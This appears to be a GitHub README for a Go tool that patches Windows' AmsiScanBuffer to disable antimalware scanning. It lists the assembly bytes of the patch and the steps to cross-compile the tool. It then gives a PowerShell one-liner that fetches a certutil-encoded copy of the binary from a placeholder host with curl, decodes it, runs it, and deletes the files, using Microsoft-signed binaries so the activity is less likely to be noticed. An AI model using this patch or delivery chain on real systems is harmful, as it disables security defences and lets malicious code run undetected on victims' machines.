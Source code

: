 # Overview 

## This repo contains a Golang implementation for a custom AmsiScanBuffer patch. I used this site to assemble the code, https://defuse.ca/online-x86-assembler.htm#disassembly.

### My implementation
- **; Clear the eax register by XORing it with itself**
- **xor eax, eax**

- **; Shift the contents of eax left by 16 bits, effectively clearing the lower 16 bits**
- **shl eax, 16**

- **; Set the lower 16 bits of eax using a bitwise OR operation with the value 0x57**
- **or ax, 0x57**

- **; Return from the subroutine**
- **ret**


# Setup 

## Install Golang 
```bash
wget https://go.dev/dl/go1.22.0.linux-amd64.tar.gz
sudo tar -C /usr/local -xvf go1.22.0.linux-amd64.tar.gz
sudo nano ~/.profile
export PATH=$PATH:/usr/local/go/bin
source ~/.profile
```

## Setup Golang Environment
```bash 
go env -w GO111MODULE=auto
```

## From within source directory 
```bash
go mod init main
go mod tidy
```

## Install compiler on Debian-based machine
```bash 
sudo apt install gcc-mingw-w64-x86-64
```
## How to compile
```bash
GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -o test.exe am_s.go
```

## Encode the binary into a text file 
```powershell
certutil -encode test.exe test.txt
```
## Execute the binary using Microsoft signed binaries
```powershell
Start-Process -FilePath curl -ArgumentList "http://<IP>/test.txt -o $($pwd.Path)\test.txt" -Wait; certutil -decode "$($pwd.Path)\test.txt" "$($pwd.Path)\test.exe"; Start-Process -FilePath "$($pwd.Path)\test.exe" -Wait; Remove-Item -Path "$($pwd.Path)\test.exe"; Remove-Item -Path "$($pwd.Path)\test.txt"
```

